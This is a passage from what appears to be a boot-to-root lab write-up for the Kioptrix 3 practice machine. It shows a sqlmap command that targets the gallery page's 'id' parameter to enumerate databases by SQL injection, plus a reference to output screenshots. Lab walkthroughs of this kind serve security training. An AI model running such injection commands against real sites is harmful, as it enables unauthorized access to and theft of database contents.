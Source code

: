 ![Desktop View](/assets/img/posts/2024-06-07-kioptrix-3-boot-to-root/pic14.png)

Next, let's proceed to dump some data from the databases.

Command:

```shell
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=\&sort=filename#photos" -p id --dbs #Names of the available databases
```

Output:

![Desktop View](/assets/img/posts/2024-06-07-kioptrix-3-boot-to-root/pic15.png)
